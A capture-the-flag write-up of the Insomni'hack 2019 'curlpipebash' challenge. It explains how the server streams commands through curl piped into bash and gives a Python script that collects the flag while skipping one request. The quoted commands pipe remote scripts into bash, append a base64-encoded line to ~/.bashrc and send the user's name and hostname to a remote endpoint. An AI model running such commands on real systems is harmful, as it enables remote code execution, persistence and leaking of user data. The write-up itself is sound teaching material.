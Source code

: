 # curlpipebash

```
Welcome to Insomni'hack teaser 2019!

Execute this Bash command to print the flag :)

> curl -Ns https://curlpipebash.teaser.insomnihack.ch/print-flag.sh | bash
```

The request to https://curlpipebash.teaser.insomnihack.ch/print-flag.sh gives us a streamed, chunked response. That means that it will send us commands that will be executed, while itself staying alive.

This allows the server to send us different replies, depending on what endpoints we hit.

## Request flow

We start the streamed, chunked response by running

> curl -Ns https://curlpipebash.teaser.insomnihack.ch/print-flag.sh | bash

print-flag.sh replies with a new curl command that contains an UUID.

> curl -Ns https://curlpipebash.teaser.insomnihack.ch/UUID | bash

When that command is executed, print-flag.sh gives us two new commands:

> base64  -d >> ~/.bashrc <<< ZXhwb3J0IFBST01QVF9DT01NQU5EPSdlY2hvIFRIQU5LIFlPVSBGT1IgUExBWUlORyBJTlNPTU5JSEFDSyBURUFTRVIgMjAxOScK

The base64 string is `export PROMPT_COMMAND='echo THANK YOU FOR PLAYING INSOMNIHACK TEASER 2019'`

> curl -Ns https://curlpipebash.teaser.insomnihack.ch/UUID/add-to-wall-of-shame/$(whoami)%40$(hostname)`

Once these are executed, print-flag.sh gives us the final command:

> echo "Welcome to the wall of shame"

and finishes.

## Solution

What we now have to do is follow the same request pattern, but leave out the `add-to-wall-of-shame` request! The following code implements that:


```python
import requests

headers = {
    "User-Agent": "curl/7.61.0" # if it looks like curl and talks like curl...
}
 
def main():
    url = "https://curlpipebash.teaser.insomnihack.ch/print-flag.sh"
    r = requests.get(url, headers=headers, stream=True)
    for l in r.iter_lines():
        print("print-flag got line: {}".format(l))
        if "curl" in l and "shame" not in l: # We want to curl all new urls, but not the wall of shame one!
            new_link = l.split(" ")[2] # who needs regex?..
            print("Requesting new url: {}".format(new_link))
            requests.get(new_link, headers=headers)

if __name__ == "__main__":
    main()
```

When we run this:

```
# python get-flag.py 
print-flag got line: curl -Ns https://curlpipebash.teaser.insomnihack.ch/c69b5fdc-cfab-48d5-a130-8925dfdd2d26 | bash
Requesting new url: https://curlpipebash.teaser.insomnihack.ch/c69b5fdc-cfab-48d5-a130-8925dfdd2d26
print-flag got line: base64  -d >> ~/.bashrc <<< ZXhwb3J0IFBST01QVF9DT01NQU5EPSdlY2hvIFRIQU5LIFlPVSBGT1IgUExBWUlORyBJTlNPTU5JSEFDSyBURUFTRVIgMjAxOScK
print-flag got line: curl -Ns https://curlpipebash.teaser.insomnihack.ch/c69b5fdc-cfab-48d5-a130-8925dfdd2d26/add-to-wall-of-shame/$(whoami)%40$(hostname)
print-flag got line: INS{Miss me with that fishy pipe}
```

The flag is `INS{Miss me with that fishy pipe}`.